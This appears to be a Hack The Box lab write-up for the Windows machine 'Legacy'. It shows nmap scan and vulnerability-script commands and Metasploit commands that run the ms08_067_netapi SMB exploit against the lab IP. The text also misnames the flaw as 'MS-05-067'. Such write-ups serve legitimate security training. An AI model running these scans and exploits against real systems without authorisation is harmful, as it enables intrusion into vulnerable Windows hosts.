




# Hack the box - Legacy


&nbsp;<span style="color:#b5e853; font-weight: bold">OS:  </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.4</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Mar 15</b>

___

## Port scanning
```
nmap -Pn -sC -sV -T4 -p- -oA nmap 10.10.10.4
```


There is SMB service running on the host with port 445. It could be vulnerable, so let's check for nmap scripts:

```
nmap -p 445 --script vuln 10.10.10.4 -Pn
```



Machine is vulnerable to MS-05-067.

## Getting access

Let's use metasploit, since this is most likely to have old vulnerability exploits built in:

```
use exploit/windows/smb/ms08_067_netapi
set rhosts 10.10.10.4
exploit
```



We can see that exploit completed successfully, so we can investigate further for user permission and flags:

